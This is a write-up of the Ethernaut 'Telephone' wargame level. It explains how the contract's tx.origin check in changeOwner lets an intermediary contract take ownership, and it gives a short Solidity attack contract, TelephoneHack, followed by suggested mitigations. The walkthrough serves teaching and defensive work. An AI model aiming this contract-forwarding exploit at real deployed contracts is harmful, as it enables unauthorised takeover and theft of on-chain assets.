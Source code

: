 ```yaml
---
title: Level 4 - Telephone
slug: level-4
published: 05-16-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut4.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Bad access control

The critical function `changeOwner` will change the ownership if `tx.origin != msg.sender` which
can be easily recreated by anyone.

### tx.origin used for authorization

Using `tx.origin` for authorizing critical behavior can be exploited by malicious contract forwarding.

## Exploit

1. Create a malicious contract that will call `changeOwner` from the Telephone contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

2. Call the `attack` function transfer the ownership to yourself.

## Suggested mitigation

1. Remove all traces of `tx.origin` in the authorization logic since it's bad practice.
2. Adding a `onlyOwner` function modifier to `changeOwner`.

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
- Ownership library from OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/ownership"} />
